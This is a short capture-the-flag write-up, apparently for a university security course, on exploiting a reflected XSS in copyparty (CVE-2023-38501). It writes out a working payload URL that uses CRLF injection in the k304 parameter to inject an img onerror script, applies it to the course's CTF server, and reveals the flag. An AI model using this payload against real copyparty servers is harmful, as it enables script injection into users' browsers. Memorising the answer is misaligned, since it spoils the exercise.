 # XSS: CTF #7

## Tasks

- Why is the secret flag in `flag.txt` not directly accessible?

  The `flag.txt` file shown in the UI does not correspond to the actual file with the flag inside.

- There is an known vulnerability that can help get the flag?

  Yes: CVE-2023-38501 states that there is a XSS vulnerability in copyparty via the URL-parameter `?k304=...` .

- What is the type of XSS that allow to get the flag?

  Reflected XSS, since the attacker has arbitrary Javascript execution in a browser.

## Other observations

- In the `README.md` of the copyparty repository, there is a section about security that states:

  > if you allow anonymous uploads or otherwise don't trust the contents of a volume, you can prevent XSS with volflag `nohtml`

- More information about the vulnerability can be found in <https://nvd.nist.gov/vuln/detail/CVE-2023-38501>;
- There is an exploit for said vulnerability: <https://github.com/advisories/GHSA-f54q-j679-p9hh>  
  Navigating to the following URL allows for Javascript code execution:

  ```
  <server domain>/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3D<javascript code>%3E
  ```

## Vulnerability exploitation

Navigating to this URL:

```
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dwindow.open(%22flag.txt%22).print()%3E
```

inserts the following `<img>` html tag:

```
<img src=copyparty onerror=window.open("flag.txt").print()>
```

This will send an HTTP GET request always fail to load and execute`window.open("flag.txt").print()`, which will generate a document print prompt with the flag inside: `flag{youGotMeReallyGood}` .

![image.png](images/ctf7.png)
